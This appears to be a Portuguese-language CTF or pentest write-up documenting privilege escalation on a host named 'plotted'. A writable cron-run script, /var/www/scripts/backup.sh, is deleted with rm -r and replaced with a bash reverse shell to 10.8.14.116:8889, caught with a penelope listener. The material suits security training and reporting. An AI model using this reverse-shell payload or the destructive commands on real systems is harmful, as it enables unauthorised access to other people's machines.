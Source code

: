 **Descrição:**  
Foi identificada uma vulnerabilidade de escalonamento de privilégios através da exploração de um cron job configurado para executar como usuário privilegiado (plot_admin). O servidor possui uma configuração inadequada de permissões que permite ao usuário www-data manipular o script executado pelo cron job.


**Evidência:**  
Durante a análise do sistema, foi identificado que o usuário plot_admin possui um cron job configurado para executar o script /var/www/scripts/backup.sh periodicamente:
```bash
* *      * * *   plot_admin /var/www/scripts/backup.sh
```
Verificação das permissões mostrou que o usuário www-data tem permissões para modificar a pasta /var/www/scripts/:

```bash
www-data@plotted:~$ ls -la /var/www/
```

Com essa informações, podemos executar:
```bash 
rm -r /var/www/scripts
```

Recebemos uma mensagem de permissão negada, mas o arquivo foi removido, então podemos acessar a pasta e recriar o arquivo backup.sh
```bash 
cd scripts;
nano backup.sh
```

E preencher o novo backup.sh com o seguinte conteúdo, a fim de conseguirmos uma shell reversa com o usuário plot_admin
```
#!/bin/bash

sh -i >& /dev/tcp/10.8.14.116/8889 0>&1
```

Ao recriar o arquivo backup.sh, podemos inicar um listener com o penelope na máquina atacante
```
python3 penelope.py 8889
```

Listando permissões de pasta e arquivo:
![rm_pasta](9-removendo_pasta_criando_shell.png)
